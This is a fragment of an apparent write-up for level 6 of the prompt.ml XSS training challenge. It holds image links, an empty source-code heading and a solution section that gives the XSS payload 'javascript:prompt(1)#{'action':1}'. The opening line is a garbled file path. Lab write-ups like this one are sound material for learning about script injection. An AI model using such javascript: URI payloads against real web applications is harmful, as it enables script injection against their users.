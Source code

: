 ![6_2](/img/xss/prompt_ml/level6_002.png)

## Solutions:

```
1.javascript:prompt(1)#{"action":1}

```

## Img:

1. `javascript:prompt(1)#{"action":1}`
	![6_3](/img/xss/prompt_ml/level6_003.png)
